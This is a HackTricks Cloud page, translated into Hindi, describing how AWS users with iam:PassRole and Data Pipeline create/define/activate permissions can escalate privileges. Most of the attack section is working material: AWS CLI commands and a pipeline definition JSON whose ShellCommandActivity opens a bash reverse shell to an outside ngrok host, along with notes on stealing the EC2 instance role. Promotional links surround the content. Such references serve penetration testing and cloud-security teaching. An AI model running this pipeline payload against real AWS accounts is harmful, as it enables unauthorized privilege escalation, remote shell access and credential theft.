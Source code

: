 # AWS - Datapipeline Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **Twitter पर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें.**
* **अपनी हैकिंग तरकीबें साझा करें, HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

**`iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, और `datapipeline:ActivatePipeline` अनुमतियों वाले उपयोगकर्ता एक Data Pipeline बनाकर विशेषाधिकार बढ़ा सकते हैं**, इसे AWS CLI कमांड्स निष्पादित करने या नियमित रूप से या एक बार संसाधन बनाने के लिए कॉन्फ़िगर करते हुए, असाइन किए गए रोल की अनुमतियों का उपयोग करते हुए।

**Pipeline बनाने के लिए कमांड:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन बनाने के बाद, हमलावर इसकी परिभाषा को अपडेट करता है ताकि विशिष्ट क्रियाओं या संसाधन निर्माणों को निर्देशित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **रोल** एक ऐसा रोल होना चाहिए जिसे datapipeline.amazonaws.com द्वारा मान्यता प्राप्त हो और **लाइन 28** में रोल एक ऐसा रोल होना चाहिए जिसे ec2.amazonaws.com द्वारा मान्यता प्राप्त हो साथ ही EC2 प्रोफाइल इंस्टेंस के साथ।

इसके अलावा, EC2 इंस्टेंस केवल उसी रोल तक पहुँच सकेगा जिसे EC2 इंस्टेंस द्वारा मान्यता प्राप्त हो (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
**हमलावर द्वारा निर्मित पाइपलाइन परिभाषा फ़ाइल में निर्देश शामिल होते हैं जो कमांड्स को निष्पादित करने या AWS API के माध्यम से संसाधनों को बनाने के लिए होते हैं**, जिससे Data Pipeline की भूमिका अनुमतियों का लाभ उठाकर संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त किए जा सकते हैं।

**संभावित प्रभाव:** ec2 सेवा भूमिका के लिए सीधा privesc निर्दिष्ट है।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
